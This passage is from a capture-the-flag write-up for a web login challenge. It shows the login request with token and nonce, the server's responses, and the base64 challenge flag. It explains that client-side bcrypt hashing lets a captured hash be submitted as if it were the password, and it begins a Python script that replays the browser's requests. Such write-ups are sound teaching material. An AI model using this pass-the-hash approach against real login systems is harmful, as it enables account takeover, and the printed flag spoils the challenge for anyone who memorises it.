 (Note: Usually, passwords and such credentials are not hashed client-side but use HTTPS/TLS to encrypt and transmit the data).

#### POST /login

This is the big bad request that holds the key to our success.

Request:
```
POST /login
```

Payload:
```
{
  "token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJoYXNoIjoiJDJiJDEyJHFqakRpdldBcUFLenFWVFNvYkRFWk9nSEtEYllmdzU0NW9RNUoybzF0YWc1b2NJVmRpVm5TIiwidmVyaWZpY2F0aW9uIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjJaWEpwWm1sbFpDSTZkSEoxWlN3aWFXRjBJam94TnpVM056UTJOakF6TENKbGVIQWlPakUzTlRjM05EWTVNRE45LkEyaFNRQ1ctcUJYZTVDcTdtZ2NmZkU4emxXSjVZOU5TZmpkRUtpQzBxdnciLCJpYXQiOjE3NTc3NDY2MTJ9.xbi-BSK4yU7yznpE0h-RvRxG-5OPhjpIma5W6w6wuro",
  "nonce":"bdf4d8549a572d476c0b4305e6ddf673"
}
```

Response:
```
{
  "error":"error"
}
```
Well, unless you are lucky enough to input the right password. (No, the right password will not be shared), you will get the above response. If you are lucky enough, you will get this response:
```
{
  "flag":"ZmxhZ3thZ2VudDQ3X3dhc19oZXJlfQ"
}
```

Inference:

We see that the ` nonce  ` parameter is the value we received as a response to ` GET /nonce ` and the ` token ` parameter is the response received from the ` POST /gentok ` request. Since, the page actually sends the bcrypt hashed password and not the actual password, we can inject the hash that we have (this is the reason why hashes are not usually computed client-side).

This question can now be solved in multiple ways. For this writeup I will be writing a python script to do my HTTP requests but alternate approaches are also just as feasible. However, we need to fool the server into thinking that we are actually a browser sending the request. Thus we will need to mimick every single request sent out by the browser and finally inject the hash where it is required. 

CODE:

```
import requests
import hashlib

BASE_URL = "https://test-project-2441139.vercel.app"  # change to your server
USER_AGENT = "Mozilla/5.0 (AgentOS; AgentWeb/1.0; rv:120.0) Gecko/20100101 AgentWeb/120.0"

headers = {
    "User-Agent": USER_AGENT,
    "Content-Type": "application/json"
}

# 1. GET /nonce
resp = requests.get(f"{BASE_URL}/nonce", headers={"User-Agent": USER_AGENT})
resp.raise_for_status()
nonce = resp.json().get("nonce")
```